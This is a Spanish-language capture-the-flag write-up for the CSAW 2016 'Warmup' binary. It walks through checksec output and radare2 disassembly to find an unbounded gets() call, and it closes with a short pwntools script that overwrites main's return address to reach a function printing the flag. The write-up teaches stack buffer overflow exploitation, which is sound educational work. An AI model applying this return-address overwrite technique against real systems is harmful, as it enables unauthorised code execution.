

**Warmup** \\
Csaw 2016 Quals Warmup

## Análisis

**pwn checksec**:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

La información describe un binario de arquitectura amd64 de 64 bits. Tiene seguridad parcial (RELRO), carece de protección contra desbordamientos de búfer en la pila (no se encontró un "canario"), pero tiene habilitada la prevención de ejecución de código malicioso (NX). No es un ejecutable independiente de posición (no PIE), lo que podría afectar a su seguridad.

## Radare2

Abro el binario usando **radare2** para continuar con el análisis.

### Funciones

Listo las funciones encontradas en el binario.

```
[0x0040061d]> afl
[...]
0x00400520    1 42           entry0
0x004004e0    1 6            sym.imp.__libc_start_main
0x00400550    4 41           sym.deregister_tm_clones
0x00400580    4 57           sym.register_tm_clones
0x004005c0    3 28           sym.__do_global_dtors_aux
0x004005e0    4 45   -> 42   entry.init0
0x00400720    1 2            sym.__libc_csu_fini
0x00400724    1 9            sym._fini
0x004006b0    4 101          sym.__libc_csu_init
0x0040060d    1 16           sym.easy
0x004004d0    1 6            sym.imp.system
0x0040061d    1 136          main
0x004004c0    1 6            sym.imp.write
0x00400510    1 6            sym.imp.sprintf
0x00400500    1 6            sym.imp.gets
0x00400488    3 26           sym._init
0x004004f0    1 6            loc.imp.__gmon_start__
[...]
```

Entre ellas hay que destacar dos:
1. main (0x0040061d): La función principal del programa, donde comienza la ejecución.
2. sym.easy (0x0040060d): Una función llamada "easy".

### Main
```
[0x0040061d]> pdf
            ;-- rip:
┌ 136: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_80h @ rbp-0x80
│           ; var int64_t var_40h @ rbp-0x40
│           0x0040061d      push rbp
│           0x0040061e      mov rbp, rsp
│           0x00400621      add rsp, 0xffffffffffffff80
│           0x00400625      mov edx, 0xa
│           0x0040062a      mov esi, str._Warm_Up__n
│           0x0040062f      mov edi, 1
│           0x00400634      call sym.imp.write
│           0x00400639      mov edx, 4
│           0x0040063e      mov esi, str.WOW:
│           0x00400643      mov edi, 1
│           0x00400648      call sym.imp.write
│           0x0040064d      lea rax, [var_80h]
│           0x00400651      mov edx, sym.easy
│           0x00400656      mov esi, 0x400751
│           0x0040065b      mov rdi, rax
│           0x0040065e      mov eax, 0
│           0x00400663      call sym.imp.sprintf
│           0x00400668      lea rax, [var_80h]
│           0x0040066c      mov edx, 9
│           0x00400671      mov rsi, rax
│           0x00400674      mov edi, 1
│           0x00400679      call sym.imp.write
│           0x0040067e      mov edx, 1
│           0x00400683      mov esi, 0x400755
│           0x00400688      mov edi, 1
│           0x0040068d      call sym.imp.write
│           0x00400692      lea rax, [var_40h]
│           0x00400696      mov rdi, rax
│           0x00400699      mov eax, 0
│           0x0040069e      call sym.imp.gets
│           0x004006a3      leave
└           0x004006a4      ret
```

La vulnerabilidad en este binario se encuentra en la última llamada a la función **sym.imp.gets** debido a que se utiliza para leer una línea de entrada sin un límite de longitud especificado por lo que se puede utilizar para sobreescribir la dirección de retorno de la función **main** y acceder a **sym.easy**.

### Easy

```
[0x0040060d]> pdf
┌ 16: sym.easy ();
│           0x0040060d      push rbp
│           0x0040060e      mov rbp, rsp
│           0x00400611      mov edi, str.cat_flag.txt
│           0x00400616      call sym.imp.system
│           0x0040061b      pop rbp
└           0x0040061c      ret
```

Se puede ver que el objetivo de esta función es ejecutar el comando "cat flag.txt" usando una llamada a **system**.

## Exploit

Lo primero que hago es poner un breakpoint al final de la función **main**. De esta forma podré calcular la diferencia entre las direcciones del input del usuario y la dirección de retorno.
```
│           0x00400699      b800000000     mov eax, 0
│           0x0040069e      e85dfeffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006a3      c9             leave
└           0x004006a4      c3             ret
[0x0040061d]> db 0x004006a4
[0x0040061d]> dc
-Warm Up-
WOW:0x40060d
>test
hit breakpoint at: 0x4006a4
```



```
[0x7ffe08433220]> ? 0x7ffe08433268 - 0x7ffe08433220
int32   72
uint32  72
hex     0x48
octal   0110
unit    72
segment 0000:0048
string  "H"
fvalue  72.0
float   0.000000f
double  0.000000
binary  0b01001000
ternary 0t2200
```

Con la distancia calculada puedo realizar el exploit.

```py
from pwn import *

# Iniciar el proceso
target = process('./warmup')

payload = b"A" * 0x48 # Padding
payload += p64(0x00400611) # sobreescribir dirección de retorno con la dirección de sym.easy

target.sendline(payload)
target.interactive()
```

Al ejecutar el script, obtengo la bandera.

```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
[+] Starting local process './warmup': pid 62190
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
-Warm Up-
WOW:[*] Got EOF while reading in interactive
$  
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.

